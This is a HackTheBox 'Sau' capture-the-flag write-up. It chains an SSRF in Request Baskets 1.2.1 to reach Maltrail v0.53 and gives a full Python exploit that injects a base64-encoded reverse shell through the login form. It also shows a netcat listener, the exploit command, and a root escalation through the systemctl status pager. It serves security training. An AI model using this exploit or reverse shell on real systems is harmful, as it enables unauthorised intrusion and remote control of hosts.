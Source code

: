 ```yaml
---
title: SSRF Vulnerability in Request Baskets version 1.2.1
description: HackTheBox - Sau Writeup
date: 2024-05-22 00:34:00 +0800
categories: [Writeup, hackthebox]
tags: [SSRF]
image: https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/sau/sau_bg.jpg?raw=true
---
```


## INFORMATION GHATERING

### Nmap

Before diving into the exploitation phase, it's crucial to conduct thorough network reconnaissance to identify open ports and services on the target machine. Let's start with an `nmap` scan.

```terminal
nmap -p- -sV 10.10.11.224
```
![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*sY1cWTgw6Dfeblf-kRYmYw.png)

Nmap result:

- Port 22 is open and running SSH (Secure Shell) service. The version of OpenSSH running is 8.2p1, and it’s running on Ubuntu Linux.
- Port 80 is filtered, which means that Nmap was unable to determine whether it’s open or closed due to firewall rules or other network restrictions.
- Port 8338 is also filtered, and Nmap couldn’t determine the service running on it.
- Port 55555 is open, and it’s running an unknown service. The service running on this port is not recognized by Nmap’s service detection capabilities.

Attempting to access the IP address through a web browser yielded no results. Lacking credentials for SSH access, we can instead explore the potential of connecting via port 55555.Next, I am visiting `http://10.10.11.224:55555` through the browser, here are the results observed:

![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*PaaQMS-LXlUFj8_DqjHFmA.png)

The analysis revealed that the service operating on port 55555 is Request Baskets, version 1.2.1

### What is Request-Baskets

[**Request Baskets**](https://rbaskets.in/web)
is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface.
This service draws inspiration from the concepts and application design principles of the RequestHub project and recreates the functionality previously provided by the RequestBin service

Based on my research I found that Request-Basekets version 1.2.1 is vulnerable to SSRF. For more information you guys can read the article that I provide below.

[Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)

## EXPLOITATION

First create request backets and adjust the settings.

![Logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*R1cKc9EpgnVts-Tcch9ngw.png)

> Dont forget the tick all the settings such as Insecure TLS, Proxy Response and Expand Forward Path and then click apply button.
{: .prompt-warning }

After you click  button, it should display like this:

![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*KOyA1KUlbaGhsYgDatQLfw.png)

Copy the url in `Requests are collected at ....` and then access it in your browser.

![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*H9OaNRFvRcMW39yqUWNlOw.png)

Here we see a Maltrail running on version (v0.53). This version of Mailtrail is vulnerable to `RCE (Remote Code Execution)`.

[Exploit for Maltrail v0.53 Unauthenticated OS Command Injection (RCE)](https://github.com/spookier/Maltrail-v0.53-Exploit?source=post_page-----0cd4723a8853--------------------------------)

Make a file name exploit.py and then paste this python code inside your file.

```python
import sys;
import os;
import base64;

def main():
 listening_IP = None
 listening_PORT = None
 target_URL = None

 if len(sys.argv) != 4:
  print("Error. Needs listening IP, PORT and target URL.")
  return(-1)
 
 listening_IP = sys.argv[1]
 listening_PORT = sys.argv[2]
 target_URL = sys.argv[3] + "/login"
 print("Running exploit on " + str(target_URL))
 curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
 payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
 encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
 command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
 os.system(command)

if __name__ == "__main__":
  main()
```
In your terminal 1 use netcat and spin-up a listener.

```terminal
rlwrap nc -lvnp 4444
```

In you second terminal exploit the vulnerability.

```terminal
python3 exploit.py 10.10.14.28 4444 http://10.10.11.224:55555/lesah4b
```
![Logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*L5IcUZ1_81wiW8QCNHTVZA.png)

Wait a few seconds and you should see your shell.

![Logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*MAsUmxp1slVn7HFJhi1F2w.png)

Time to upgrade my shell.

```terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![Logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*_bnCp-HJWB9eNt8EKyyRoQ.png)

### PRIVELEGE ESCALATION

When you’re trying to escalate your privileges on a system, one important command you’ll want to remember is `sudo -l`. This command helps you determine what actions you're allowed to perform with elevated privileges.

![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*QUdofZEVMZrbqCrUR7lV1w.png)

The output indicates that the user `puma` has sudo privileges on the `sat` system, specifically for running the command systemctl status trail.service. This privilege is granted without requiring the user to enter a password, allowing them to view the status of the `trail.service` system service with elevated privileges.

We can execute systemctl status as root.

```terminal
sudo systemctl status trail.service
```

![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*HRZcjsN_f28104xQTP1gsA.png)

Enter until the END and execute !sh

```terminal
!sh
```

![Logo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*2inx_wl59C1oB-iH_4nCgw.png)
